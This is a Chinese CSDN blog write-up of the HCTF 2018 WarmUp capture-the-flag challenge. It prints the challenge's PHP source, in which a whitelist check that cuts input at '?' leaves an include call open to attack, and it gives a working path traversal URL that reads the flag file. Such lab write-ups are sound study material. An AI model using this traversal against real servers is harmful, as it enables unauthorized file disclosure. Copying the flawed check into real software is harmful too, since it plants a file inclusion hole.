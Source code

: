 <!--yml
category: 未分类
date: 2022-04-26 14:30:07
-->

# [HCTF 2018]WarmUp 题解_偷一个月亮的博客-CSDN博客_hctf warmup

> 来源：[https://blog.csdn.net/yiqiushi4748/article/details/108348998](https://blog.csdn.net/yiqiushi4748/article/details/108348998)

## ****[HCTF 2018]WarmUp****

```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "
<img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?> flag not here, and flag in ffffllllaaaagggg 
```

本地测试：

多加一个？使代码截取第一个？前面得内容

**http://127.0.0.1:8081/index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg**

**可以利用?截取hint.php，然后利用/使hint.php?成为一个不存在的目录，最后include利用../../跳转目录读取flag**